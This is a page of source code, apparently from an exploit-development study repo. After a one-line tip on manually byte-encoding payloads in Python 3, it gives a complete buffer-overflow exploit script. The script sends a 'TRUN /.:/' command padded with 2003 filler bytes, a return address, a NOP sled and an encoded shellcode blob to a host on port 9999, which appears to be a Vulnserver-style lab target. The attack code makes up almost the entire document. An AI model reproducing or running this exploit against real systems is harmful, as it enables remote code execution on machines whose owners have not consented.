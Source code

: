 ## SOMETIMES the Payload Encoder in python3 does not work as we wanted to

- **the solution is** manually byte encode it like this:

```python
#!/usr/bin/python3

import sys, socket
from time import sleep

overflow = (b"\xb8\x5c\x1e\x35\x96\xd9\xc6\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
b"\x52\x31\x43\x12\x03\x43\x12\x83\x9f\x1a\xd7\x63\xe3\xcb\x95"
b"\x8c\x1b\x0c\xfa\x05\xfe\x3d\x3a\x71\x8b\x6e\x8a\xf1\xd9\x82"
b"\x61\x57\xc9\x11\x07\x70\xfe\x92\xa2\xa6\x31\x22\x9e\x9b\x50"
b"\xa0\xdd\xcf\xb2\x99\x2d\x02\xb3\xde\x50\xef\xe1\xb7\x1f\x42"
b"\x15\xb3\x6a\x5f\x9e\x8f\x7b\xe7\x43\x47\x7d\xc6\xd2\xd3\x24"
b"\xc8\xd5\x30\x5d\x41\xcd\x55\x58\x1b\x66\xad\x16\x9a\xae\xff"
b"\xd7\x31\x8f\xcf\x25\x4b\xc8\xe8\xd5\x3e\x20\x0b\x6b\x39\xf7"
b"\x71\xb7\xcc\xe3\xd2\x3c\x76\xcf\xe3\x91\xe1\x84\xe8\x5e\x65"
b"\xc2\xec\x61\xaa\x79\x08\xe9\x4d\xad\x98\xa9\x69\x69\xc0\x6a"
b"\x13\x28\xac\xdd\x2c\x2a\x0f\x81\x88\x21\xa2\xd6\xa0\x68\xab"
b"\x1b\x89\x92\x2b\x34\x9a\xe1\x19\x9b\x30\x6d\x12\x54\x9f\x6a"
b"\x55\x4f\x67\xe4\xa8\x70\x98\x2d\x6f\x24\xc8\x45\x46\x45\x83"
b"\x95\x67\x90\x04\xc5\xc7\x4b\xe5\xb5\xa7\x3b\x8d\xdf\x27\x63"
b"\xad\xe0\xed\x0c\x44\x1b\x66\xf3\x31\x27\x31\x9b\x43\x27\xac"
b"\x07\xcd\xc1\xa4\xa7\x9b\x5a\x51\x51\x86\x10\xc0\x9e\x1c\x5d"
b"\xc2\x15\x93\xa2\x8d\xdd\xde\xb0\x7a\x2e\x95\xea\x2d\x31\x03"
b"\x82\xb2\xa0\xc8\x52\xbc\xd8\x46\x05\xe9\x2f\x9f\xc3\x07\x09"
b"\x09\xf1\xd5\xcf\x72\xb1\x01\x2c\x7c\x38\xc7\x08\x5a\x2a\x11"
b"\x90\xe6\x1e\xcd\xc7\xb0\xc8\xab\xb1\x72\xa2\x65\x6d\xdd\x22"
b"\xf3\x5d\xde\x34\xfc\x8b\xa8\xd8\x4d\x62\xed\xe7\x62\xe2\xf9"
b"\x90\x9e\x92\x06\x4b\x1b\xb2\xe4\x59\x56\x5b\xb1\x08\xdb\x06"
b"\x42\xe7\x18\x3f\xc1\x0d\xe1\xc4\xd9\x64\xe4\x81\x5d\x95\x94"
b"\x9a\x0b\x99\x0b\x9a\x19")

shellcode = b"A" * 2003 + b"\xaf\x11\x50\x62" + b"\x90" * 16 + overflow

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = b"TRUN /.:/" + shellcode

	s.send((payload))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```
